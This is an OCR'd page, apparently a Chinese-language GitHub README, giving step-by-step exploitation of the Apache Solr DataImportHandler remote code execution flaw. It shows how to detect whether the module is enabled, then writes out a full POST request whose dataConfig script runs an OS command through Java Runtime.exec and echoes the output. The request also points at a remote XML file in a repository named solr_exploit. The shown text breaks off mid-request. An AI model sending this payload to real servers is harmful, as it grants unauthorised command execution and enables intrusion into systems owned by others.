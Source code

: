 方法2
```
访问
http://{xx.com:80}/solr/#/{core_name}/dataimport

如果这个Solr服务器并没有使用dataimport-handler模块(不受该漏洞影响)，HTTP响应中会有提示：
sorry, no dataimport-handler defined!

否则说明使用了DataImportHandler模块(受该漏洞影响)
```

#### 步骤4 构造HTTP请求

执行命令 HTTP响应中有执行结果回显 支持多行结果 (我写的是每一行用`\n\r`结尾)

注意：需要将以下请求url中的字符串"tika"替换为索引库的名称

```
POST /solr/tika/dataimport HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 1231
Connection: close

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>


  <dataSource type="URLDataSource"/>
  <script><![CDATA[

          function poc(row){

 var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ls").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));

return row;

}


  ]]></script>

        <document>
             <entity name="entity1"
                     url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                     processor="XPathEntityProcessor"
                     forEach="/RDF/item"
```